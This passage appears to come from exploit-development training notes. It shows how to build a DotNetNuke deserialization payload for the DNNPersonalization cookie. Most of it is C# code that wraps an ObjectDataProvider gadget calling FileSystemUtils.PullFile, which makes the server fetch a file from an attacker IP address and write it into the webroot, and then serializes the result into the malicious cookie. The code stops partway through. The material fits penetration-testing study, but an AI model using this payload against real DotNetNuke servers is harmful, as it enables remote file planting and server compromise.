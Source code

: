 ## Serializing Our Payload

We already know how to use the XmlSerializer class to serialize our object.
Based on our earlier analysis we know that the DNNPersonalization cookie has to be in a specific format in order to reach the deserialization function call.
Specifically, it has to contain the "profile" node along with the "item" tag, which contains a "type" attribute describing the enclosed object.

Rather than trying to reconstruct this structure manually, we can re-use the DNN function that creates that cookie value in the first place. This function is called _SerializeDictionary_ and is located in the _DotNetNuke.Common.Utilities.XmlUtils_ namespace:

 ![](../../03.%20Screenshots/t4-ss31.png)

Taking from this example, our adjusted serializer looks like so:

```c#
using System;
using System.IO;
using System.Xml.Serialization;
using DotNetNuke.Common.Utilities;
using System.Windows.Data;
using System.Collections;

namespace ODPSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider myODP = new ObjectDataProvider();
            myODP.ObjectInstance = new FileSystemUtils();
            myODP.MethodName = "PullFile";
            myODP.MethodParameters.Add("http://192.168.119.184/myODPTest.txt");
            myODP.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt");

            Hashtable table = new Hashtable();
            table["myTableEntry"] = myODP;
            String payload = "; DNNPersonalization=" + XmlUtils.SerializeDictionary(table, "profile");
            TextWriter writer = new StreamWriter("C:\\Users\\Public\\PullFileTest.txt");
```